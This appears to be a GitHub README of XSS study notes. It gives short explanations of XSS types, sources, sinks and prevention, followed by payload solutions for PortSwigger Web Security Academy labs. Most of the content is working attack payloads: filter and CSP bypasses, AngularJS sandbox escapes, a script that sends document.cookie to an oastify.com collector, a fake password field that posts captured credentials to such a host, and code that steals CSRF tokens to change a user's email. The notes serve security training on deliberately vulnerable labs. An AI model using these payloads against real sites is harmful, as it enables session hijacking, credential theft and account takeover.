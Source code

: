 # 🛡  XSS  Cross-site scripting <a href="https://portswigger.net/web-security/all-labs#cross-site-scripting"> Lab's </a>




## 1️⃣ What is XSS?
Cross-Site Scripting (XSS) is a vulnerability that allows attackers to inject malicious scripts into web pages viewed by other users.

---

## 2️⃣ Types of XSS

| **Type**       | **Trigger** | **Where Payload Lives**       | **Example URL / Vector** |
|----------------|-------------|--------------------------------|--------------------------|
| **Reflected**  | Immediate   | In the request & response      | `https://victim.com/?q=<script>alert(1)</script>` |
| **Stored**     | Persistent  | Database / Server storage      | Malicious blog comment `<script>alert(1)</script>` |
| **DOM-Based**  | Client-side | In browser JS, from sources    | `https://victim.com/#<img src=x onerror=alert(1)>` |

---

## 3️⃣ Common Payloads

| **Context**       | **Payload** |
|-------------------|-------------|
| Basic HTML/JS     | `<script>alert(1)</script>` |
| Image Error Event | `<img src=x onerror=alert(1)>` |
| Anchor Tag        | `<a href=javascript:alert(1)>Click</a>` |
| Inline SVG        | `<svg onload=alert(1)>` |
| Onmouseover Event | `<div onmouseover=alert(1)>Hover me</div>` |
| DOM URL Fragment  | `#<img src=x onerror=alert(1)>` |

---

## 4️⃣ Testing Tips
- **Reflected XSS:** Check query parameters, form submissions, search fields.
- **Stored XSS:** Test comment boxes, profile descriptions, message boards.
- **DOM XSS:** Look for JS that takes `location`, `document.cookie`, `document.referrer` and writes to `innerHTML`, `document.write()`, or `eval()`.

---

## 5️⃣ Sources & Sinks (DOM XSS)
**Sources:**  
- `location`, `document.URL`, `document.cookie`, `document.referrer`, `window.name`, `localStorage`, `sessionStorage`

**Sinks:**  
- `innerHTML`, `outerHTML`, `document.write()`, `eval()`, `setTimeout()` (string), `Function()`, `element.src`

---

## 6️⃣ Prevention
- **Escape output** for HTML, JS, CSS contexts.
- **Use safe DOM APIs** (`textContent` instead of `innerHTML`).
- **Validate input** and reject dangerous patterns.
- **Enable CSP** (Content Security Policy).
- **Use HTTPOnly cookies** for session tokens.
- **Avoid dangerous functions** (`eval()`, `Function()`).

---

## 7️⃣ Quick Exploit Examples

### Reflected
```html
https://victim.com/?name=<script>alert(1)</script>
```
<hr>
#📜 
## LAB: Reflected XSS into HTML context with nothing encoded

```
Enter the following into the search box: 
Payload : '</h1><script>alert(1)</script>
```

## Lab: Stored XSS into HTML context with nothing encoded
```
Enter the following into the comment box: 
 - Payload: comment=<script>alert(2)</script>
```



## Lab: DOM XSS in document.write sink using source location.search

A website takes something from the URL (like a search term),
And then shows it on the page using JavaScript,Without checking if it's safe.

✅ Two Important Parts:

1. Source – Where the user input comes from
   Example: location.search → This gives the part after ? in the URL.
   For example:
```
   https://example.com/page?name=hello
   location.search → "?name=hello"
```

2. Sink – Where the data is used/executed.
   Example: document.write() → This writes HTML to the page.
   If we use it directly with location.search, it can be dangerous.



Payload  : 
```
- ABC"><img src="a" onerror=alert(1)>
- ABC"><svg onload=alert(1)>
```



## Lab: DOM XSS in innerHTML sink using source location.search

Note : innerHTML we cannot insert any script tag.

Payload  : 
```
- <img src="a" onerror=alert(1)>
```


## Lab: DOM XSS in jQuery anchor href attribute sink using location.search source

Payload :
<a href="javascript:alert(document.cookie)">Click me</a>

```
javascript:alert(document.cookie)
```

## Lab: DOM XSS in jQuery selector sink using a hashchange event

```
<script>
    $(window).on('hashchange', function(){
        var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
        if (post) post.get(0).scrollIntoView();
        });
</script>
```
Payload :

```
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```

## Lab: Reflected XSS into attribute with angle brackets HTML-encoded


when you're dealing with XSS (Cross-Site Scripting) and < or other tag-related characters (<, >) are filtered or encoded, you need to rely on tag-less or attribute-based payloads that don't require <script> or <img> tags to execute.

<a href="https://raw.githubusercontent.com/robin113x/BSCP-Exam/refs/heads/main/Payload/tagless_xss_payloads.txt">Tagless PAyloads</a>

```
" onmouseover="alert(1)
```

### LAB: Reflected XSS into a JavaScript string with angle brackets HTML encoded

When you’re dealing with Reflected XSS into a JavaScript string, and angle brackets < > are HTML-encoded or filtered, you can still exploit XSS without any HTML tags.

```
";alert(1);//         // closes quote and runs JS
'+alert(1)+'         // using concatenation
'-alert(1)-'         // works too
"/1/+alert(1)//      // division with alert
"/a/+alert(1)//      // forces type coercion
"+alert(1)+""        // string concat, safe from HTML filter
"+alert(String.fromCharCode(88,83,83))+"
```


### LAB: DOM XSS in document.write sink using source location.search inside a select element

payload:
```
product?productId=1&storeId="></select><img%20src=1%20onerror=alert(1)>
```

### LAB:  DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded
$scope
$watch $ON $eval $emit $apply $digest
payload:
```
{{$on.constructor('alert(1)')()}}
{{$watch.constructor('alert(1)')()}}
```


### LAB: Reflected DOM XSS
payload:
```
\"-alert(1)}//
\"+alert(1)}//
\"&alert(1)}//
\"|alert(1)}//
```

### Lab: Stored DOM XSS
payload:
```
<><img src=1 onerror=alert(1)>
```


### Reflected XSS into HTML context with most tags and attributes blocked

<iframe src="https:///0af8005f03c81c828041176b003b001f.web-security-academy.net/?search=<body onresize=print()>" onload=this.style.width='100px'>



### Reflected XSS into HTML context with all tags blocked except custom ones

```
<robin onclick=alert(document.cookie)>
<robin onclick=alert(1)>

<script>
location = 'https://0a5400970474591680c31759002a0079.web-security-academy.net/?search=<robin id=x onfocus=alert(document.cookie) tabindex=1>#x';
</script>
```

## Lab: Reflected XSS with some SVG markup allowed
```
<svg id=x onbegin=alert(1)>
<svg><animatetransform onbegin=alert(1)>   
```
## LAB:  Reflected XSS in canonical link tag
```
In URL add at end : 
/?'accesskey='x'onclick='alert(1)
```


## Lab: Reflected XSS into a JavaScript string with single quote and backslash escaped
```
</script><script>alert(1)</script>

```

## Lab: Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped
```
\'-alert(1)//
\'+alert(1)//
```

## Lab: Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped
```
http://robin.com/?&apos;-alert(1)-&apos;
http://robin.com/?&#39;+alert(1)+&#39;
http://robin.com/?&#x27;+alert(1)+&#x27;

```
## Lab: Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped

```
${alert(1)}
```

## Lab: Exploiting cross-site scripting to steal cookies

submit the following payload in a blog comment: 
payload
```
use Burp Collaborator :: 

<script>
fetch('https://m0nv6rd5ltolzbtmrjxa6vvz1q7hv7jw.oastify.com', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```
#### Alternative  Exploiting XSS to bypass CSRF defenses
```
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```

## Lab: Exploiting cross-site scripting to capture passwords
```

<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://ik6rqnx15p8hj7dibfh6qrfvlmrdf43t.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```


## Lab: Exploiting XSS to bypass CSRF defenses
```
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```

## Lab: Reflected XSS with AngularJS sandbox escape without strings

https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#angularjs-dom--1.4.4-(without-strings)
payload
```
toString().constructor.prototype.charAt=[].join; [1,2]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)


toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1

```

## Lab: Reflected XSS with AngularJS sandbox escape and CSP
```
<script>
location='https://YOUR-LAB-ID.web-security-academy.net/?search=<input id=x ng-focus=$event.composedPath()|orderBy:'(z=alert)(document.cookie)'>#x';
</script>



<script>
location='https://0a91009e037b43e2805e03310060009f.web-security-academy.net/?search=%3Cinput%20id=x%20ng-focus=$event.composedPath()|orderBy:%27(z=alert)(document.cookie)%27%3E#x';
</script>

```

## Lab: Reflected XSS with event handlers and href attributes blocked
```
https://YOUR-LAB-ID.web-security-academy.net/?search=<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>
```


## Lab: Reflected XSS in a JavaScript URL with some characters blocked
```
href="javascript:fetch('/analytics', {method:'post',body:'/post?postId=4'}).finally(_ => window.location = '/')"



https://0a3000ba04e4d0318287746200af00a3.web-security-academy.net/post?postId=3&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'




post?postId=3&'},x=x=>{{onerror=alert}throw/**/1337},toString=x,window+'',{x:'

```
 ## Lab: Reflected XSS protected by very strict CSP, with dangling markup attack

```
To get victim CSRF token paste this in exploit sever : 
<script>
location='https://0a2d001b0465062e817dacb10077004f.web-security-academy.net/my-account?email="></form><form class="login_form" name="myform" action="https://exploit-0a42007f040406b181c4ab1601310061.exploit-server.net/exploit" method="GET"><button class="button" type="submit">Click</button';
</script>


CSRF PoC - generated by Burp Suite Professional

Pate the HTML code in exploit sever :: Then deliver 


```

## Lab: Reflected XSS protected by CSP, with CSP bypass

```
/?search=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&token=;script-src-elem%20%27unsafe-inline%27
```